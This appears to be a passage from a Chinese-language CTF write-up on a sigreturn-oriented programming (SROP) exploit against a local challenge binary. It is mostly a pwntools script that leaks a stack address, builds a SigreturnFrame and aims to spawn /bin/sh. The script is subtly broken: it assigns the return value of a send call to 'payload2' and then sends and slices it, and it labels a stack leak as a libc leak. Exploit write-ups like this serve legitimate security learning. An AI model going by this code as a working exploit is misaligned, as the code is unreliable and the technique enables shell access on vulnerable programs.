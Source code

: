 ```python3=
r.interactive()
```

###### signal.return.read /bin/sh 預留位置給　/bin/sh

理解完上面的東西之後，我們要 call execve /bin/sh 需要先讓　sigreturn 正確地 恢復暫存器狀態，而且這邊也可以控制後續的 /bin/sh

而前面兩次 ret 完讓我們成功 leak stack addr ， 讓我們需要再 call 一次 ret 到 start

![image](https://hackmd.io/_uploads/r1tLCHVoR.png)

我們也需要讓 syscall call 到 rt_sigreturn 所以們只能讀 15 bytes

```python3=
from pwn import *
import time
r=process('./chal')

#DEBUG=raw_input('Debug:y/n'+'\n')
DEBUG=input('Debug:y/n'+'\n')

if DEBUG=="y":
    context.log_level = 'debug'
    context.arch = 'amd64'
    context.os = 'linux'
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def p():
    gdb.attach(r)


payload1 = p64(0x401000)+p64(0x401000)+p64(0x401000) # read -> write -> read

r.send(payload1)

time.sleep(0.5)

r.send(b'\x03')

leak_stack=u64(r.recv()[8:16])

print('leak libc: ',hex(leak_stack))

start=0x401000
syscall=0x40100e

read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = leak_stack
read.rdx = 0x400
read.rsp = leak_stack
read.rip = syscall

payload2=r.send(p64(start)+p64(syscall)+bytes(read))

r.send(payload2)

time.sleep(0.5)

r.send(payload2[8:23])

r.interactive()

```
